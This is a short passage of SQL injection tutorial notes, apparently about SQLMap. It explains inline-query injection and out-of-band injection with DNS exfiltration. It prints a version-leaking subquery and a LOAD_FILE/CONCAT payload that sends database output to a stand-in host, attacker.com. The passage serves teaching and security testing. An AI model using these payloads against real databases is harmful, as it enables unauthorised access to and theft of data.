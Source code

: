 ***

## Inline queries

Example of `Inline Queries`:

```sql
SELECT (SELECT @@version) from
```

This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

***

## Out-of-band SQL Injection

Example of `Out-of-band SQL Injection`:

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.
